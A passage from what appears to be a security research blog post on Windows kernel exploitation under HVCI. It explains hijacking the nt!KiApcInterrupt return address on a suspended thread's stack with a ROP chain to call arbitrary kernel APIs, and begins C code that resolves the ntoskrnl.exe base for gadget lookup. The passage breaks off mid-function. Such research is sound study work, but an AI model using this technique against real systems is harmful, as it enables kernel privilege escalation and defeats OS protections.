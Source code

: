 The point of examining this is to understand the fact that an interrupt basically occurred, as a result of the APC being queued on our "dummy" thread. This APC is telling the thread basically to "do nothing" - which is essentially what a suspended thread is. Here is where this comes into play for us.

When this thread is resumed, the thread will return from the `nt!KiApcInterrupt` function. So, what we can do is we can overwrite the return address on the stack for `nt!KiApcInterrtupt` with the address of a ROP gadget (the return address on this system used for this blog post is `nt!KiApcInterrupt + 0x328` - but that could be subject to change). Then, when we resume the thread eventually (which can be done from user mode) - `nt!KiApcInterrupt` will return and it will use our ROP gadget as the return address. This will allow us to construct a ROP chain which will allow us to call arbitrary kernel-mode APIs! The key, first, is to use our leaked `KTHREAD` object and parse the `StackBase` member - using our arbitrary read primitive - to locate the stack (where this return address lives). To do this, we will being the prototype for our final "exploit" function titled `constructROPChain()`.

<img src="{{ site.url }}{{ site.baseurl }}/images/HVCI29.png" alt="">

Notice the last parameter our function receives - `ULONG64 ntBase`. Since we are going to be using ROP gadgets from `ntoskrnl.exe`, we need to locate the base address of `ntoskrnl.exe` in order to resolve our needed ROP gadgets. So, this means that we _also_ need a function which resolves the base of `ntoskrnl.exe` using `EnumDeviceDrivers`. Here is how we instrument this functionality.

```c
/**
 * @brief Function used resolve the base address of ntoskrnl.exe.
 * @param Void.
 * @return ntoskrnl.exe base
 */
ULONG64 resolventBase(void)
{
	//
	// Array to receive kernel-mode addresses
	//
	LPVOID* lpImageBase = NULL;

	//
	// Size of the input array
	//
	DWORD cb = 0;

	//
	// Size of the array output (all load addresses).
	//
	DWORD lpcbNeeded = 0;

	//
	// Invoke EnumDeviceDrivers (and have it fail)
	// to receive the needed size of lpImageBase
	//
	EnumDeviceDrivers(
		lpImageBase,
		cb,
		&lpcbNeeded
	);

	//
	// lpcbNeeded should contain needed size
	//
	lpImageBase = (LPVOID*)malloc(lpcbNeeded);

	//
	// Error handling
	//
	if (lpImageBase == NULL)
	{
```
